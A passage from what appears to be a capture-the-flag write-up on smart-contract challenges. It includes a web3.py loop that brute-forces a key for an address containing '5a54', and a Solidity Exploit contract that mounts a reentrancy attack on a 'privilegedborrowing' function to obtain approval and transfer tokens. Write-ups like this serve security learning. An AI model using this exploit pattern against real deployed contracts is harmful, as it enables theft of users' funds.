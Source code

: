 For this function to return `true`, part of the address of `msg.sender` must contain `5a54`. Such an address and its corresponding private key can be generated by brute force using a tool such as profanity2, but a Python script using web3.py is also fast enough for this challenge to compute them as follows.

```py
from web3.auto import w3

while True:
    account = w3.eth.account.create()
    private_key = account.key
    address = account.address

    if "5a54" in address:
        print("Private Key: ", private_key.hex())
        print("Address: ", address)
        break
```

All that remains is to just run `share_my_valut` and `setflag` using the account.

Flag: `0x58c71576485889cc367b4cb238ab719c3c2f7f70`

### SimpleCall

[Source](SimpleCall)

>If you want money, call me simply!

Do a reentrancy attack against the `privilegedborrowing` function.

```solidity
contract Exploit {
    IExistingStock stock;

    function exploit(address instanceAddress) public {
        stock = IExistingStock(instanceAddress);
        stock.privilegedborrowing(1000, address(0), address(this), "");
        stock.privilegedborrowing(
            1000,
            address(0),
            address(stock),
            abi.encodePacked(bytes4(keccak256("approve(address,uint256)")), abi.encode(address(this), uint256(200001)))
        ); 
        stock.setflag();
    }

    fallback() external {
        stock.privilegedborrowing(
            1000,
            address(0),
            address(stock),
            abi.encodePacked(bytes4(keccak256("transfer(address,uint256)")), abi.encode(address(this), uint256(200001)))
        );
    }
}
```
